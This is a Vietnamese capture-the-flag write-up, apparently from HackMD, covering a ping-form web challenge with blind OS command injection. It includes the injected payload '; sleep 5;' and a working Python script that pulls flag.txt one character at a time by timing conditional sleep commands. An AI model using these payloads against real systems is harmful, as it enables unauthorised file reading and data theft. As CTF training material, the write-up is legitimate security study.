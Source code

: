 ## Task
- ![](https://hackmd.io/_uploads/H1n58dRoh.png)

Qua việc nhìn tên đề bài mình có thể đoán được rằng bài này sẽ được khai khác bằng **command injection**

# Recon

- ![](https://hackmd.io/_uploads/rk6ND_Rj3.png)

- Ở ngay trang đầu tiên ta có thể thấy được rằng trang web này sẽ cho phép người dùng kiểm tra kết nối với một trang web sử dụng lệnh **ping** nhưng khi ta thử

- ![](https://hackmd.io/_uploads/BkGAwOAj2.png)

- Vậy ta có thể thấy rằng thay vì in ra output như bình thường thì nó lại in ra thông báo hệ thống đang được bảo trì và đang ngắt kết nối mạng nhưng khi ta thử những payload khác
- ![](https://hackmd.io/_uploads/HkWL__Aon.png)
- Ta có thể thấy được rằng các payload không hề bị filter nên là ta có thể thoải mái thực hiện các payload khác nhau nhưng không nhìn thấy kết quả vậy ta phải làm thế nào
- Khi mở source code lên ta có thể thấy bất kể chúng ta làm gì đi chăng nữa thì ta vẫn sẽ nhận được dòng thông báo là đang bảo trì server do biến output đã bị thay đổi khi kết thúc hàm **index()**
- ![](https://hackmd.io/_uploads/SyQpa_Rsn.png)

# Exploit
- Đầu tiên ta phải có một cách nào để chắc chắn rằng mọi câu lệnh ta chạy vào bên trong đều được thực hiện nhưng làm thế nào để biết được rằng các câu lệnh đã được chạy và được thực thi? Đây chính là lúc mà ta thực hiện [**Blind OS command injection with time delay**](https://www.youtube.com/watch?v=KbWn4L2dcHU&ab_channel=RanaKhalil) 
- Khái quát một chút ta sẽ sử dụng độ trễ của server phản hồi để chắc chắn rằng chúng ta đang thực hiện một câu lệnh "OS"
- Đầu tiên ta sẽ thử với payload như sau```hostname=; sleep 5;``` sử dụng burp suite để có thể quan sát kỹ hơn 
- ![](https://hackmd.io/_uploads/HyfmoOCoh.png)
- Ta có thể thấy request bị trả về với khoảng thời gian là  ![](https://hackmd.io/_uploads/SyO_iu0o3.png)
- Vậy làm thế nào để có thể đọc được file flag.txt đây ta sẽ viết một file script để lấy flag nói cách khác chính là **bruteforce** 
- Để có thể build được một file script thì ta cần hai thứ thứ nhất chính là làm thế nào để biết được các ký tự có trong file flag.txt sử dụng câu lệnh **OS** thứ hai làm thế nào để có thể in ra được ký tự đó và nhận về kết quả cuối cùng
- Ta sẽ sử dụng lệnh **cut** và lệnh **cat** để có thể làm được điều đó
- ![](https://hackmd.io/_uploads/HyHGpuAo2.png)
- Câu lệnh này có nghĩa là đọc file **api.py** rồi cut lấy ký tự đầu tiên của file **api.py**
- Vậy là ta có cách để có thể lấy được ký tự đầu tiên của file giờ là làm thế nào để có thể in nó ra một cách chính xác và sử dụng time delay để lấy được flag
- Nhưng như ta đã biết việc in ra kết quả của biến output là không thể khi mà biến output đã biến đổi thành đoạn văn bản ta không cần vậy làm thế nào để có thể chạy được script đây
- Ta đến hướng thứ hai chính là việc sử dụng **if else** trong bash để có thể thứ nhất là so sánh với ký hiệu được **cat** ứng với ký tự gì trong bản chữ cái và ta sẽ sử dụng câu lệnh sau
- ![](https://hackmd.io/_uploads/HkWLfKAjn.png)
- Ta có thể hiểu câu lệnh trên đang lấy ký tự đầu rồi so sánh với chữ "i" nếu giống nhau thì in ra 'same' nếu không thì in ra 'not same' vạy nếu như ta thay bằng sleep thì sao nếu như giống thì sleep 2 giây không giống thì không sleep
- Vậy giờ khi đã có trong tay hướng đi sao ta không bắt đầu vào code nhỉ?
 ```python=
import requests
import time 

CHARSET = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_.{}-' # dùng để bruteforce

URL = 'http://34.130.180.82:59119/' # url của đề bài

FLAG = ''

proxies={"http":"http://127.0.0.1:8080"} #localhost

for index in range(1,50):
    print("[DEBUG] Đang bruteforce kí tự thứ ", index)
    for c in CHARSET:
        # Đây là payload exploit
        # Nếu đúng thì tui cho nó ngủ 2s
        # Nếu sai thì không ngủ
        INJECT = "; cmd=`cat flag.txt | cut -c {vitri}`; if [ $cmd = '{bruteforce}' ]; then sleep 2; else sleep 0; fi; #".format(
            vitri=index,
            bruteforce=c
        )
        # Sử dụng phương thức POST để có thể gửi dữ liệu đến url
        r = requests.post(URL, {'hostname': INJECT},proxies=proxies)
        thoi_gian_phan_hoi = r.elapsed.total_seconds()
        # Thì khi kết quả HTTP trả về, nó sẽ lưu vào .text của biến r
        #print("Tui đang thử kí tự thứ ",index," nè: ", c, "(time:",thoi_gian_phan_hoi,")")
        if thoi_gian_phan_hoi > 2:
            FLAG += c
            print("Tìm ra kí tự thứ ", index, "là ", c, "(FLAG:",FLAG,")")
            break

 ```
# Flag
- ![](https://hackmd.io/_uploads/HyH2mKAoh.png)

